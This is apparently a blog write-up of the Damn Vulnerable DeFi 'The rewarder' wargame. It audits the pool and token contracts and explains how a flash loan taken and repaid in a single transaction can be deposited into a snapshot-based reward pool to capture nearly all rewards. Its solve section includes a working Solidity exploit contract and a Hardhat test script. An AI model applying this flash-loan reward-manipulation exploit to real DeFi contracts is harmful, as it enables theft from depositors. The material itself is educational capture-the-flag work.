




**Wargame Provider: @tinchoabbate**

> Challenge #5 — The rewarder
There’s a pool offering rewards in tokens every 5 days for those who deposit their DVT tokens into it.
Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!
You don’t have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.
Oh, by the way, rumours say a new pool has just landed on mainnet. Isn’t it offering DVT tokens in flash loans?

- [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.1.0/contracts/the-rewarder)
- [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.1.0/test/the-rewarder/the-rewarder.challenge.js)


## Code Audit
> FlashLoanerPool.sol

### Dependency

- The openzeppelin library ReentrancyGuard and Address contract are dependent and used.

### Functions

`constructor(address liquidityTokenAddress)`

- Used as a liquidity token contract management variable. (liquidityToken)

`function flashLoan(uint256 amount) external nonReentrant`

- Perform simple flash loan logic. Use the liquidityToken contract function assigned in the initial deployment phase.

✅ If the value received as a function argument is less than or equal to the value of Liquidity Token, the condition can be passed.

✅ Borrower can pass if it is in the deployed contract state.

- Based on the `transfer` function of the liquidityToken contract, it is transferred to the `msg.sender` target.

- Call the `receiverFlashLoan(uint256 amount)` function by executing `functionCall` based on `msg.sender`. There is currently no implementation.

✅ The balance value of the liquidityToken contract must be greater than or equal to the previous Balance.

> TheRewarderPool.sol

### Dependency

- RewardToken, DammValuableToken (Liquidity Token), and AccoutingToken Contract are subordinated.

### State Variable

`uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days`

- Used to measure the minimum duration of a reward round. (in seconds, 24 * 60 * 60 * 5)

`uint256 public lastSnapshotIdForRewards , uint256 public lastRecordedSnapshotTimestamp , uint256 public roundNumber;`

- Dependent variables used in the reward payment logic. If the current time is greater than or equal to the value of the `lastRecordedSnapshotTimestamp` variable plus the value of `REWARDS_ROUND_MIN_DURATION`, then these variables are updated and the snapshot is nominally updated, as well as the value of each round.

- You can check the reward tracking function and the pattern required for the reward logic to be executed in units of 5 days.

`mapping(address => uint256) public lastRewardTimestamps;`

- It is used to determine the value based on the `_hasRetrievedReward` function. In the mapping structure, you can check that the address of the user who will receive each reward is the key, and the value is the time when each reward is received.

### Functions

`constructor(address tokenAddress)`

- Allocate and initialize variables for liquidityToken, AccountToken, and RewardToken contract control.

- `_recordSnapshot();` The function that initializes the snapshot function is called directly from within, and this is a function that is called once when deploying the contract.

`function deposit(uint256 amountToDeposit) external`

✅ The value received as a function argument must be unconditionally greater than 0 to pass.

- Based on the mint function of the AccountToken contract, it is created as much as the argument value to `msg.sender.`
- To transmit, a token must exist for each user and must be allowed through the `approve` function.
- Call `distributeRewards()` function. (It is assumed that the work of distributing rewards is in progress.)

✅ Call the transferFrom function of the liquidityToken contract to transfer the tokens held by msg.sender to the current contract as much as the argument of the parent function.

`function withdraw(uint256 amountToWithdraw) external`

- Based on the burn function of the AccountToken contract, the token of `msg.sender` is destroyed as much as the argument value of the parent function.

✅ Pass the value to msg.sender based on the transfer function of the liquidityToken contract.

`function distributeRewards() public returns (uint256)`

- This is a core function function that proceeds with the issuance of rewards.
- Calls the `isNewRewardsRound` function to determine whether a reward can be received and when an actual reward is received, the
- `_recordSnapshot()` function is called to change the reward status, time, and round status values.

``` solidity
function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
```
- In order to receive a reward, first deposit the token, pass this function after 5 days, record a snapshot and calculate each reward before receiving the value.

Let’s analyze the reward logic in detail. First, snapshots and rewards are closely related. In a hypothetical scenario, we calculated the value that a user can receive after 5 days after depositing 10 ether.



In the initial stage after depositing, you can see that the balance value is allocated to the pool. After 5 days have elapsed, in round 3, the conditions for receiving a reward are met, and the reward value is 1 ether, and 10 ether is recorded in the snapshot.



``` solidity
// [OMIT]
uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;

            if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }
// [OMIT]
```

If the withdraw function is called in the Round: 3 situation, the Balance value of the Account Pool can be retrieved. As shown in the figure above, the Balance value becomes 0, but it can be seen that the Snapshot and Reward continue to maintain the value.

> RewardToken.sol

### Dependency

- ERC20 of the openzeppelin library and AccessControl contract are dependent and used.

### State Variable

`bytes32 public constant MINTER_ROLE = keccak256(“MINTER_ROLE”); 

- Since we use the RAC function of the AccessControl contract, we hash each Role to keccak256.

### Functions

`constructor() ERC20(“Reward Token”, “RWT”)`

- Proceed with ERC20 token initial setting and set RAC function through `_setupRole` function.

`function mint(address to, uint256 amount) external`

✅ Check whether the MINTER_ROLE value is allowed through the hasRole function and then check whether `msg.sender`is allowed.

- Call the `_mint` function.

> AccountingToken.sol

### Dependency

- ERC20Snapshot of the openzeppelin library and AccessControl contract are dependent and used.State Variable

### State Variable

`bytes32 public constant MINTER_ROLE = keccak256(“MINTER_ROLE”);
bytes32 public constant SNAPSHOT_ROLE = keccak256(“SNAPSHOT_ROLE”);
bytes32 public constant BURNER_ROLE = keccak256(“BURNER_ROLE”);`

### Functions

`constructor() ERC20(“rToken”, “rTKN”)`

- Proceed with ERC20 initial setting and set RAC for each ROLE designated as state variable through `_setupRole` function.

`function mint(address to, uint256 amount) external`

✅ Check if MINTER_ROLE ROLE is msg.sender with hasRole function.

- Call the `_mint` function.

`function burn(address from, uint256 amount) external`

✅ Check if `BURNER_ROLE` ROLE is `msg.sender` with `hasRole` function.

- Call the `_burn` function.

`function snapshot() external returns (uint256)`

✅ Check if `SNAPSHOT_ROLE` ROLE is `msg.sender` with `hasRole` function.

- Execute the ERC20 snapshot logic by calling the `_snapshot` function.

``` solidity
/**
     * @dev Creates a new snapshot and returns its snapshot id.
     *
     * Emits a {Snapshot} event that contains the same id.
     *
     * {_snapshot} is `internal` and you have to decide how to expose it externally. Its usage may be restricted to a
     * set of accounts, for example using {AccessControl}, or it may be open to the public.
     *
     * [WARNING]
     * ====
     * While an open way of calling {_snapshot} is required for certain trust minimization mechanisms such as forking,
     * you must consider that it can potentially be used by attackers in two ways.
     *
     * First, it can be used to increase the cost of retrieval of values from snapshots, although it will grow
     * logarithmically thus rendering this attack ineffective in the long term. Second, it can be used to target
     * specific accounts and increase the cost of ERC20 transfers for them, in the ways specified in the Gas Costs
     * section above.
     *
     * We haven't measured the actual numbers; if this is something you're interested in please reach out to us.
     * ====
     */
    function _snapshot() internal virtual returns (uint256) {
        _currentSnapshotId.increment();

        uint256 currentId = _getCurrentSnapshotId();
        emit Snapshot(currentId);
        return currentId;
    }
```
If you analyze the implementation code, you can see that the ID value is issued in increments using the `_currentSnapshotId` Counter instance value, the transaction event is recorded, and the current ID value is returned through the `_getCurrentSnapshotId()` function.

## Contract Business Flow


Since the contract is composed of each function, each function plays a certain role, and the main function determines the dependency to create a business flow and analyze it.

## Vulnerability

We identified the function of each contract based on audit. Since the Snapshot function is currently used in the reward issuance process, it was found that the Balance value and the reward value do not check each other during the actual withdrawal process. However, since it is a process after making an actual deposit, a line operation is required. Here, an attacker can obtain LiquidityToken by calling the FlashLoan function in the Flash Loan Pool, and then execute the Reward vulnerability logic to steal the balance.

The FlashLoan function inside the FlashLoanPool contract performs `transfer` and lends the user as much as the value in the pool, and then calls the `receiveFlashLoan`(uint) function, which has not been implemented yet, `functionCall` At this time, after importing the target contract deployed from the arbitrarily implemented contract, there is a vector that can implement the `receiveFlashLoan` function.

After borrowing the entire balance from flashLoanPool, the attacker deposits it in the reward pool to perform the reward logic. At this time, based on the reward snapshot management vulnerability, call withdraw from this pool to withdraw the balance and pay off the flashLoan loan.

If a reward is issued after arbitrarily manipulating a transaction for 5 days, as described above, the actual reward value is alive because of the snapshot function, so an attacker can steal it.

## Solve

``` solidity
pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./RewardToken.sol";
import "./TheRewarderPool.sol";
import "../DamnValuableToken.sol";

contract Exploit {
    TheRewarderPool public theRewarderPool;
    FlashLoanerPool public flashLoanerPool;
    RewardToken public rewardToken;
    DamnValuableToken public liquidityToken;

    constructor(address _theRewarderPoolContract, address _flashLoanerPoolContract, address _rewardTokenContract, address _liquidityTokenContract) {
        theRewarderPool = TheRewarderPool(_theRewarderPoolContract);
        flashLoanerPool = FlashLoanerPool(_flashLoanerPoolContract);
        rewardToken = RewardToken(_rewardTokenContract);
        liquidityToken = DamnValuableToken(_liquidityTokenContract);
    }
    
    function receiveFlashLoan(uint256 amount) external {
        liquidityToken.approve(address(theRewarderPool), amount);
        theRewarderPool.deposit(amount);
        theRewarderPool.withdraw(amount);
        liquidityToken.transfer(msg.sender, amount);
    }

    function _exploit(uint256 amount) external {
        flashLoanerPool.flashLoan(amount);
        rewardToken.transfer(msg.sender, rewardToken.balanceOf(address(this)));
    }

} 
```

``` tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] The rewarder', function () {

    let deployer, alice, bob, charlie, david, attacker;
    let users;

    const TOKENS_IN_LENDER_POOL = ethers.utils.parseEther('1000000'); // 1 million tokens

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */

        [deployer, alice, bob, charlie, david, attacker] = await ethers.getSigners();
        users = [alice, bob, charlie, david];

        const FlashLoanerPoolFactory = await ethers.getContractFactory('FlashLoanerPool', deployer);
        const TheRewarderPoolFactory = await ethers.getContractFactory('TheRewarderPool', deployer);
        const DamnValuableTokenFactory = await ethers.getContractFactory('DamnValuableToken', deployer);
        const RewardTokenFactory = await ethers.getContractFactory('RewardToken', deployer);
        const AccountingTokenFactory = await ethers.getContractFactory('AccountingToken', deployer);

        this.liquidityToken = await DamnValuableTokenFactory.deploy();
        this.flashLoanPool = await FlashLoanerPoolFactory.deploy(this.liquidityToken.address);

        // Set initial token balance of the pool offering flash loans
        await this.liquidityToken.transfer(this.flashLoanPool.address, TOKENS_IN_LENDER_POOL);

        this.rewarderPool = await TheRewarderPoolFactory.deploy(this.liquidityToken.address);
        this.rewardToken = await RewardTokenFactory.attach(await this.rewarderPool.rewardToken());
        this.accountingToken = await AccountingTokenFactory.attach(await this.rewarderPool.accToken());

        // Alice, Bob, Charlie and David deposit 100 tokens each
        for (let i = 0; i < users.length; i++) {
            const amount = ethers.utils.parseEther('100');
            await this.liquidityToken.transfer(users[i].address, amount);
            await this.liquidityToken.connect(users[i]).approve(this.rewarderPool.address, amount);
            await this.rewarderPool.connect(users[i]).deposit(amount);
            let t1 = await this.rewarderPool.connect(users[i]).isNewRewardsRound();
            console.log(t1);

            expect(
                await this.accountingToken.balanceOf(users[i].address)
            ).to.be.eq(amount);
        }
        expect(await this.accountingToken.totalSupply()).to.be.eq(ethers.utils.parseEther('400'));
        expect(await this.rewardToken.totalSupply()).to.be.eq('0');

        // Advance time 5 days so that depositors can get rewards
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days

        // Each depositor gets 25 reward tokens
        for (let i = 0; i < users.length; i++) {
            await this.rewarderPool.connect(users[i]).distributeRewards();
            let t2 = await this.rewarderPool.connect(users[i]).lastSnapshotIdForRewards();
            console.log(t2);
            expect(
                await this.rewardToken.balanceOf(users[i].address)
            ).to.be.eq(ethers.utils.parseEther('25'));
        }
        expect(await this.rewardToken.totalSupply()).to.be.eq(ethers.utils.parseEther('100'));

        // Attacker starts with zero DVT tokens in balance
        expect(await this.liquidityToken.balanceOf(attacker.address)).to.eq('0');
        
        // Two rounds should have occurred so far
        expect(
            await this.rewarderPool.roundNumber()
        ).to.be.eq('2');
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const exploitFacotry = await ethers.getContractFactory('Exploit', attacker);
        const exploit = await exploitFacotry.deploy(
            this.rewarderPool.address,
            this.flashLoanPool.address,
            this.rewardToken.address,
            this.liquidityToken.address,
        );
        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
        await exploit.connect(attacker)._exploit(TOKENS_IN_LENDER_POOL);
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        
        // Only one round should have taken place
        expect(
            await this.rewarderPool.roundNumber()
        ).to.be.eq('3');

        // Users should get neglegible rewards this round
        for (let i = 0; i < users.length; i++) {
            await this.rewarderPool.connect(users[i]).distributeRewards();
            let rewards = await this.rewardToken.balanceOf(users[i].address);
            
            // The difference between current and previous rewards balance should be lower than 0.01 tokens
            let delta = rewards.sub(ethers.utils.parseEther('25'));
            expect(delta).to.be.lt(ethers.utils.parseUnits('1', 16))
        }
        
        // Rewards must have been issued to the attacker account
        expect(await this.rewardToken.totalSupply()).to.be.gt(ethers.utils.parseEther('100'));
        let rewards = await this.rewardToken.balanceOf(attacker.address);

        // The amount of rewards earned should be really close to 100 tokens
        let delta = ethers.utils.parseEther('100').sub(rewards);
        expect(delta).to.be.lt(ethers.utils.parseUnits('1', 17));

        // Attacker finishes with zero DVT tokens in balance
        expect(await this.liquidityToken.balanceOf(attacker.address)).to.eq('0');
    });
});
```

## next time.. 🚀

I will continue to post auditing and research on 12 challenge defi Smart Contracts.

Thank you for the @tinchoabbate that made a good wargame.
[Damn Vunlerable Defi](https://www.damnvulnerabledefi.xyz/)

```toc
```